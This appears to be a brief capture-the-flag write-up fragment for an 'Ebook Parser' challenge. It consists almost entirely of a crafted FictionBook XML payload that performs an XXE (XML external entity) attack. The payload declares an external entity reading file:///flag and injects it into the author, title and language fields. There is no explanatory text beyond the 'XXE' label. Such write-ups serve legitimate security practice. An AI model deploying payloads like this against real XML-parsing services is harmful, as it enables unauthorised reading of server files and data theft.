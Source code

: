 ![](/images/2024/05/ByTdUVbNC.png)



### Ebook Parser

- XXE

{% raw %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<FictionBook xmlns="http://www.gribuser.ru/xml/fictionbook/2.0" xmlns:l="http://www.w3.org/1999/xlink">
<description>
    <title-info>
        <genre>antique</genre>
        <author><first-name></first-name><last-name>&xxe;</last-name></author>
        <book-title>&xxe;</book-title>
        <lang>&xxe;</lang>
    </title-info>
    <document-info>
        <author><first-name></first-name><last-name>Unknown</last-name></author>
        <program-used>calibre 6.13.0</program-used>
        <date>26.5.2024</date>
        <id>eb5cbf82-22b5-4331-8009-551a95342ea0</id>
        <version>1.0</version>
    </document-info>
    <publish-info>
    </publish-info>
</description>
<body>
<section>
<p>&lt;root&gt;</p>
<p>12345</p>
<p>&lt;/root&gt;</p>
</section>
</body>

</FictionBook>
```
{% endraw %}
